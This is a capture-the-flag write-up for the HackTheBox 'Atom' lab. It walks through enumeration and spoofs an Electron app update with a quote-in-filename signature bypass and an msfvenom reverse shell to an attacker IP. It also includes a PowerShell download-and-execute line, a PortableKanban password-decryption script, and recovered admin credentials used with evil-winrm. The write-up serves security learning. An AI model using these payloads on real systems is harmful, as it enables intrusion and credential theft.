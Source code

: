 ![](atom_banner.png)

<p align="right">   <a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"><img loading="lazy" alt="x00tex" src="https://www.hackthebox.eu/badge/image/391067"></a>
</p>

# Enumeration

**IP-ADDR:** 10.10.10.237 atom.htb

**nmap scan:**
```bash
PORT     STATE SERVICE      VERSION
80/tcp   open  http         Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: Heed Solutions
135/tcp  open  msrpc        Microsoft Windows RPC
443/tcp  open  ssl/http     Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: Heed Solutions
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
445/tcp  open  microsoft-ds Windows 10 Pro 19042 microsoft-ds (workgroup: WORKGROUP)
5985/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
6379/tcp open  redis        Redis key-value store
Service Info: Host: ATOM; OS: Windows; CPE: cpe:/o:microsoft:windows
```

* Windows version: `OS: Windows 10 Pro 19042 (Windows 10 Pro 6.3)`
* Nothing in ssl certificate.
* Radis rewuirer authAuthentication, [hacktricks](https://book.hacktricks.xyz/pentesting/6379-pentesting-redis)

      ❯ redis-cli -h 10.10.10.237
      10.10.10.237:6379> info
      NOAUTH Authentication required.

* SMB allowed access without password

  ![](screenshots/smb-share.png)

  Found a pdf file and some empty directories.
* There a file available for download on http server `/releases/heed_setup_v1.0.0.zip`

  ![](screenshots/web-page.png)

* zip archive contains a windows execuatable.

      ❯ file heedv1-Setup-1.0.0.exe
      heedv1-Setup-1.0.0.exe: PE32 executable (GUI) Intel 80386, for MS Windows, Nullsoft Installer self-extracting archive

* pdf file contains some information about this exe file.

  ![](screenshots/heed-pdf-doc.png)

pdf also talking about update.

![](screenshots/pdf-update-note.png)

And if we reverse the executable with `7z` in linux and find the `resources` folder under `$PLUGINSDIR`, which contains the  electron app source codes in `app.asar` file. We can decompress `app.asar` file with [`asar`](https://github.com/electron/asar) tool to get the application source javascript files.
```bash
❯ npx asar extract app.asar dest-dir
```

![](screenshots/app-packages.png)

This application using vulnerable version of `electron-updater` package.

* Vulnerability found from [snyk VulnerabilityDB](https://snyk.io/vuln/SNYK-JS-ELECTRONUPDATER-561421)
* **electron-builder's Electron-Updater PoC blog from [blog.doyensec.com](https://blog.doyensec.com/2020/02/24/electron-updater-update-signature-bypass.html)**

# Foothold

## Electron Updater RCE

**Exploit surface:** The signature verification check performed by electron-builder is simply based on a string **comparison between the installed binary’s publisherName and the certificate’s Common Name attribute of the update binary**. During a software update, the application will request a file named **`latest.yml`** from the **update server**, which contains the definition of the new release - including the binary filename and hashes.

* our application is using smb share's client folder for new `latest.yml` and we have access to these "client" folders.

**Other part:** an attacker could **bypass the entire signature verification** by triggering a parse error in the script. This can be easily achieved by **using a filename containing a single quote (`'`) and then by recalculating the file hash to match the attacker-provided binary** (using `shasum -a 512 maliciousupdate.exe | cut -d " " -f1 | xxd -r -p | base64`).

* Found update process form  [electron docs](https://www.electron.build/auto-update#staged-rollouts)

**Exploit**

**Generate reverse shell with msfvenom**
```bash
❯ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.15.71 LPORT=4141 -f exe -o "rev'Shell.exe"
```

**generate sha512 bash encoded hash**
```bash
❯ sha512sum rev\'Shell.exe | cut -d " " -f1 | xxd -r -p | base64 -w 0
77b46759lH58s81l3tMaetP541XEe+XJ2V+IEPOC5dF27MjxROsm/JJMVR7tt2CN/hmVikE5d8Wa9VuxMAnFNw==
```

**configure latest.yml**
```yml
version: 1.0.1
path: http://10.10.15.71/rev'Shell.exe
sha512: 77b46759lH58s81l3tMaetP541XEe+XJ2V+IEPOC5dF27MjxROsm/JJMVR7tt2CN/hmVikE5d8Wa9VuxMAnFNw==
```

**upload `latest.yml` in the smb share's "client" folder.**

![](screenshots/rev-shell.png)


<details>
<summary><strong>msf shell</strong></summary>

Generate Reverse shell with msfvenom
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.15.71 LPORT=4141 -f psh -o msf_shell.ps1
```

Execute with powershell IEX
```bash
IEX (New-Object Net.WebClient).DownloadString('http://10.10.15.71/msf_shell.ps1')
```

</details>
</br>

# Privesc

## Kanban credentials encryption flaw

* Only one user on the box "jason"

There is radis server running, get in the nmap scan, so finding radis server creds: `C:\Program Files\Redis\redis.windows-service.conf`

![](screenshots/radis-pass.png)
<!--kidvscat_yes_kidvscat-->

Found "Administrator" Encrypted Password from redis database, But don't find the encryption type.

![](screenshots/redis-dump.png)
<!--Odh7N3L9aVQ8/srdZgG2hIR0SSJoJKGi-->

Running winpeas found user "jason" password but it is not working.

![](screenshots/winpeas-win-creds.png)

Enumerating user "jason" home folder find [PortableKanban](https://www.atlassian.com/agile/kanban) in `C:\Users\jason\Downloads\PortableKanban`.

from kanban config file found that radis is useing by kanban.

![](screenshots/kanban-config.png)

that looking that encrypted password from config, they both looks same.

PortableKanBan stores credentials in an encrypted format and also found a script for decrypt this from [ExploitDB](https://www.exploit-db.com/exploits/49409).

```py
import base64
from des import * #python3 -m pip install des

def decode(hash):
	hash = base64.b64decode(hash.encode('utf-8'))
	key = DesKey(b"7ly6UznJ")
	return key.decrypt(hash,initial=b"XuVUm5fR",padding=True).decode('utf-8')

print(decode("Odh7N3L9aVQ8/srdZgG2hIR0SSJoJKGi"))
```

Run the script give decrypted password
<!--
jason:kidvscat_electron_@123
administrator:kidvscat_admin_@123
-->

Checking if that password is working
```bash
$username = "domain\Administrator"
$password = "kidvscat_admin_@123" | ConvertTo-SecureString -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential -ArgumentList $username,$password
$s = New-PSSession -Credential $Cred
Invoke-Command -Session $s -Scriptblock {whoami}
```

![](screenshots/admin-pass-check.png)

We can get the Administrator shell with `evil-winrm`

```bash
❯ evil-winrm -i 10.10.10.237 -u administrator -p 'kidvscat_admin_@123'
```

![](screenshots/atom-rooted.png)

